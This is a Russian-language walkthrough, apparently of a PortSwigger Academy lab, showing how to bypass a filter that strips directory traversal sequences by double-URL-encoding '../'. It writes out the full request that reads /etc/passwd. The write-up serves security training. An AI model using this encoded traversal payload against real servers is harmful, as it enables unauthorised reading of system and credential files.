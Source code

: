 При загрузке веб-ресурса заметим, что идут отдельные GET запросы к веб-серверу и отправим данный запрос в repeater
```
GET /image?filename=73.jpg
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/3.%20Directory%20traversal/4.%20Lab%20File%20path%20traversal%2C%20traversal%20sequences%20stripped%20with%20superfluous%20URL-decode/pics%20fow%20walktrough/1.png)

При определенных настройках, веб сервер может удалять любые последовательности обхода каталога перед передачей вашего ввода в приложение. Иногда вы можете обойти этот вид очистки с помощью кодирования URL-адреса или даже двойного кодирования URL-адреса, символов

Для этого откроем вкладку Decoder и выберем `Encode as` -> `URL`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/3.%20Directory%20traversal/4.%20Lab%20File%20path%20traversal%2C%20traversal%20sequences%20stripped%20with%20superfluous%20URL-decode/pics%20fow%20walktrough/2.png)
  
тем самым `../` превращается в `%2e%2e%2f`, и оно при повторном кодировании в URL превращается в `%25%32%65%25%32%65%25%32%66`

Повторим аналогичные действия для `/` -> `%2f` -> `%25%32%66`

Тем самым, наше уже известное
```
../../etc/passwd 
```
првевращается в
```
GET /image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc%25%32%66passwd
```
Его и запишем в запрос к потенциально уязвимому ресурсу, и получим доступ к /etc/passwd
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/3.%20Directory%20traversal/4.%20Lab%20File%20path%20traversal%2C%20traversal%20sequences%20stripped%20with%20superfluous%20URL-decode/pics%20fow%20walktrough/3.png)
